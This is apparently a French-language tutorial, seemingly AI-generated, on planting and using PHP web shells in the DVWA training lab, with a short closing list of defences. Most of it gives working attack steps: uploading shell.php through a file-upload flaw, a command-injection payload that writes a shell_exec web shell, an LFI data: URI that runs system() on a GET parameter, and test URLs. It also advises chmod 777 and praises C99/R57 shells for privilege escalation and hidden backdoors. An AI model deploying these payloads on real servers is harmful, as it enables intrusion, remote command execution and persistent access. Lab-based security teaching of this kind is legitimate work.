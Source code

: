 Voici une explication détaillée pour déployer et exécuter le shell PHP sur DVWA (à des fins éducatives uniquement) :


C99 et R57 sont des web shells PHP très populaires parmi les attaquants.

    C99 shell :
    🔹 Interface avancée avec navigation dans les fichiers
    🔹 Gestion des bases de données (MySQL)
    🔹 Exécution de commandes système (exec, shell_exec, etc.)
    🔹 Scan de ports, upload de fichiers, et autres outils intégrés

    R57 shell :
    🔹 Interface plus légère mais tout aussi puissante
    🔹 Accès et édition de fichiers
    🔹 Exploitation de privilèges (root si possible)
    🔹 Possibilité de cacher des backdoors pour un accès permanent




Déployer le Shell PHP sur le Serveur

Pour que le shell fonctionne, vous devez le placer sur le serveur web (dans le dossier DVWA). Voici trois méthodes :
Méthode 1 : Utiliser la Vulnérabilité "File Upload" (Recommandé)

    Accédez à la vulnérabilité :
    Allez sur http://localhost/vulnerabilities/upload/ (niveau de sécurité : low).

    Téléversez le shell PHP :

        Créez un fichier shell.php avec le code fourni précédemment.

        Dans la page DVWA, cliquez sur "Parcourir", sélectionnez shell.php, puis "Upload".

    Exécutez le shell :
    Une fois téléversé, le shell sera accessible à l’adresse :
    http://localhost/hackable/uploads/shell.php?pass=secret123&cmd=ls
    (Modifiez les paramètres cmd, addfile, ou deletefile selon besoin).

Méthode 2 : Injection de Commande + Création du Fichier

Si la vulnérabilité Command Injection est exploitée (étape 2), utilisez-la pour créer directement shell.php sur le serveur :

    Injectez une commande pour créer le shell :
    Dans la page exec/, entrez :
    bash
    Copy

    127.0.0.1; echo '<?php if(isset($_GET["cmd"])){echo "<pre>".shell_exec($_GET["cmd"])."</pre>";} ?>' > shell.php

    Cela crée un fichier shell.php dans le dossier DVWA/vulnerabilities/exec/.

    Accédez au shell :
    Allez à http://localhost/vulnerabilities/exec/shell.php?cmd=ls.

Méthode 3 : Inclusion de Fichier Local (LFI) + Écriture

Si vous avez trouvé une vulnérabilité LFI, utilisez-la pour écrire le shell :

    Injectez du code PHP via l’URL :
    bash
    Copy

    http://localhost/DVWA/vulnerabilities/fi/?page=data:text/plain,<?php system($_GET['cmd']);?>

    Exécutez des commandes avec &cmd=ls.

Tester le Shell

Une fois le shell déployé, testez-le avec ces requêtes :

    Lister les fichiers :
    http://localhost/hackable/uploads/shell.php?pass=secret123&cmd=ls -la
    Result

    Créer un fichier :
    http://localhost/hackable/uploads/shell.php?pass=secret123&addfile=test.txt

    Supprimer un fichier :
    http://localhost/hackable/uploads/shell.php?pass=secret123&deletefile=test.txt

Problèmes Courants + Solutions

    Permissions Refusées :

        Assurez-vous que le dossier DVWA/hackable/uploads/ a les permissions en écriture (chmod 777).

        Utilisez des commandes comme whoami pour vérifier l’utilisateur du serveur.

    Fichier Non Trouvé :

        Vérifiez le chemin exact où le shell est téléversé (ex: DVWA/vulnerabilities/exec/ vs DVWA/hackable/uploads/).






🛡 4. Comment se protéger ?

✅ Désactiver l'exécution de fichiers PHP dans les dossiers d'upload
✅ Filtrer les extensions autorisées lors des uploads (jpg, png, etc.)
✅ Restreindre les fonctions PHP dangereuses (exec, shell_exec, system, passthru)
✅ Utiliser un WAF (pare-feu web comme ModSecurity)
✅ Surveiller les fichiers suspects sur le serveur (find /var/www/ -type f -name "*.php" -exec grep -i shell {} +)
✅ Utiliser des requêtes préparées (Prepared Statements)
✅ Éviter la concaténation de chaînes dans les requêtes SQL
✅ Ne jamais exécuter directement des entrées utilisateur dans system(), exec(), shell_exec()
✅ Utiliser des alternatives sécurisées (ex: proc_open() avec restrictions)
✅ Restreindre les permissions utilisateur (www-data en Linux ne doit pas avoir trop de privilèges)
✅ Autoriser uniquement certaines extensions (ex: .jpg, .png)
✅ Stocker les fichiers en dehors du répertoire web (/var/www/html/uploads → /var/uploads)
✅ Désactiver l'exécution des scripts PHP dans le dossier d'upload
✅ Vérifier le MIME type du fichier (éviter image.php.jpg)
✅ Empêcher l'upload de fichiers exécutables (.php, .sh, .exe)
✅ Restreindre l'accès aux fichiers sensibles (/etc/passwd, .env)